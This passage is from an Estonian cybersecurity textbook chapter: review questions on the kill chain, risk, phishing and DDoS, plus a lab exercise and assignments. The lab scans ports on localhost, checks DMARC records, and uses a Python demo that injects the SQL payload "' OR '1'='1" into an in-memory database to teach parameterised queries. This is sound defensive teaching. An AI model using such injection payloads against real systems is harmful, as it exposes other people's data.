- Kill Chain ja MITRE ATT&CK kirjeldavad ründe käiku. Kaitsjal piisab ühe etapi katkestamisest.
- SQL-süst ja XSS tekivad, kui sisend muutub käsu osaks. Lahendus on parameetrid ja väljundi kodeerimine.
- Kaitse ehitatakse kihtidena ja eeldusega, et mõni kiht võidakse läbida.

### Kontrollküsimused

1. Too näide rünnetest, mis rikuvad konfidentsiaalsust, terviklust ja käideldavust.
2. Too näide olukorrast, kus konfidentsiaalsus ja käideldavus on vastuolus.
3. Mis vahe on ohul, nõrkusel, ekspluidil ja riskil? Selgita oma näite abil.
4. Kas MFA lisamine vähendab riski tõenäosust või mõju? Aga varukoopia?
5. Mis on nullpäevane nõrkus ja miks kasutavad ründajad sagedamini juba paigatud nõrkusi?
6. Miks ei ole CVSS-skoor sama mis risk sinu organisatsioonis? Mis on KEV-loetelu?
7. Mis on ründepind? Nimeta viis viisi selle vähendamiseks.
8. Mis vahe on paroolipihustamisel ja volituste täitmisel? Miks kontolukustus pihustamise vastu ei aita?
9. Nimeta Cyber Kill Chaini seitse etappi ja iga etapi kohta üks kaitsemeede.
10. Miks aitab FIDO2-turvavõti õngitsuse vastu paremini kui SMS-kood?
11. Kuidas tekib SQL-süst ja miks parameetritega päring selle välistab?
12. Miks ei saa mahupõhist DDoS-rünnet peatada oma tulemüüriga?

### Valikküsimused

1. Milline turvaomadus on rikutud, kui ründaja muudab märkamatult pangaülekande summat? a) konfidentsiaalsus b) terviklus c) käideldavus d) anonüümsus
2. Mis on nõrkus (vulnerability)? a) ründaja b) varukoopia c) süsteemi viga või puudus, mida saab ära kasutada d) turvapoliitika
3. Mis on Cyber Kill Chaini esimene etapp? a) luure b) paigaldamine c) ärakasutamine d) juhtimiskanal
4. Mis kaitseb SQL-süsti eest kõige paremini? a) pikem parool b) tulemüür c) HTTPS d) parameetritega päringud
5. Mis aitab kõige paremini õngitsuse ja MFA-väsitamise vastu? a) SMS-kood b) turvaküsimus c) FIDO2-turvavõti või pääsuvõti d) pikem parool

### Praktiline ülesanne

**Ründepinna kaardistamine, domeeni e-postikaitse ja SQL-süst oma masinas.** Tee ülesanne oma õppe-VM-is või WSL-is (ptk 20.5). Skanni ainult oma masinat: võõraste süsteemide skaneerimine ilma loata võib olla seadusevastane.

1. Windowsi kuulavad pordid (PowerShell):

```powershell
Get-NetTCPConnection -State Listen | Sort-Object LocalPort |
  Select-Object LocalAddress, LocalPort, OwningProcess,
    @{n='Protsess'; e={(Get-Process -Id $_.OwningProcess).ProcessName}}
```

Pane tähele veergu `LocalAddress`: `127.0.0.1` tähendab, et teenus on kättesaadav ainult samast masinast, `0.0.0.0` või `::` tähendab, et kõigist võrkudest.

2. Linuxi poolel (WSL Ubuntu või Kali):

```bash
sudo apt update && sudo apt install -y nmap python3 dnsutils
ss -tulpn                    # millised teenused kuulavad
sudo nmap -sV localhost      # mida näeb väljastpoolt tulija
```

3. Kontrolli, kas domeenid on kaitstud võltsitud saatjaga kirjade eest:

```bash
dig +short TXT ria.ee | grep spf
dig +short TXT _dmarc.ria.ee
dig +short TXT _dmarc.minu-kool.ee   # asenda oma kooli domeeniga
```

DMARC-kirjes näitab `p=reject`, et võltskirjad lükatakse tagasi, `p=quarantine`, et need pannakse rämpsposti, ja `p=none`, et neid ainult raporteeritakse.

4. SQL-süsti näide. Salvesta fail `sqlsyst.py` ja käivita `python3 sqlsyst.py`:

```python
import sqlite3
db = sqlite3.connect(":memory:")
db.execute("CREATE TABLE users(name TEXT, secret TEXT)")
db.executemany("INSERT INTO users VALUES (?, ?)", [("mari", "kass123"), ("jaan", "koer456")])

sisend = "' OR '1'='1"
ohtlik = f"SELECT * FROM users WHERE name = '{sisend}'"
print("Ohtlik päring:", ohtlik)
print("Tulemus:", db.execute(ohtlik).fetchall())
print("Parameetriga:", db.execute("SELECT * FROM users WHERE name = ?", (sisend,)).fetchall())
```

Vasta: mitu porti kuulab Windowsis ja mitu WSL-is? Milline teenus on mõttetu ja kuidas selle sulged? Milline DMARC-poliitika on sinu kooli domeenil? Miks tagastas parameetriga päring tühja nimekirja?

### Iseseisvad ülesanded

**1. Intsidendi analüüs.** Vali üks avalikult kirjeldatud intsident viimase viie aasta seest (nt RIA küberturvalisuse aastaraamatust või rahvusvahelisest uudisest). Kirjelda rünnet Kill Chaini seitsme etapi kaupa ja seo vähemalt kolm sammu MITRE ATT&CK tehnikaga. **Esita:** tabel (etapp, mis juhtus, ATT&CK tehnika, meede, mis oleks sammu katkestanud).

**2. Ohtude ja riskide tabel.** Vali oma kool, töökoht või kodu. Nimeta viis vara, iga vara kohta oht ja nõrkus ning hinda tõenäosust ja mõju skaalal 1–3. **Esita:** riskitabel, kolme suurima riski kohta üks meede ja selgitus, kas see vähendab tõenäosust või mõju.

**3. Nõrkuse uurimine.** Leia CISA KEV-loetelust üks viimase aasta nõrkus. **Esita:** CVE-tunnus, toode, CVSS-hinne, mida ründaja selle abil teha saab ja kuidas administraator peaks reageerima.

### Viited

- Nolvak, V. [Peamised küberohud: teooria, ründevektorid ja praktika](https://github.com/valdonolvak/kyberturvalisus/blob/main/K%C3%BCberturbe_alused/Peamised%20k%C3%BCberohud%20teooria%2C%20r%C3%BCndevektorid%20ja%20praktika.md) ja [Küberhügieeni 12 põhimõtet](https://github.com/valdonolvak/kyberturvalisus/blob/main/K%C3%BCberh%C3%BCgieeni%2012%20p%C3%B5him%C3%B5tet%20%E2%80%93%20%C3%B5ppematerjal%20n%C3%A4idete%20ja%20anal%C3%BC%C3%BCsiga.md). GitHub.
- Lockheed Martin. [The Cyber Kill Chain](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html).
- MITRE. [ATT&CK](https://attack.mitre.org/).
- FIRST. [Common Vulnerability Scoring System](https://www.first.org/cvss/).
- CISA. [Known Exploited Vulnerabilities Catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog).
- OWASP. [Top 10](https://owasp.org/Top10/) ja [Cheat Sheet Series](https://cheatsheetseries.owasp.org/).
- NIST. [Cybersecurity Framework 2.0](https://www.nist.gov/cyberframework) (2024).
- Riigi Infosüsteemi Amet. [Küberturvalisuse aastaraamat](https://www.ria.ee/).

> 📝 **Test:** selle peatüki Google Formsi test luuakse skriptiga [`google-forms/looVormid.gs`](../google-forms/looVormid.gs).

---

[← 23. UUS: Windows, Linux ja macOS võrdluses](23-windows-linux-macos.md) · [Sisukord](../README.md) · [25. UUS: Krüptograafia ajalugu ja põhimõisted →](25-kruptograafia-ajalugu.md)
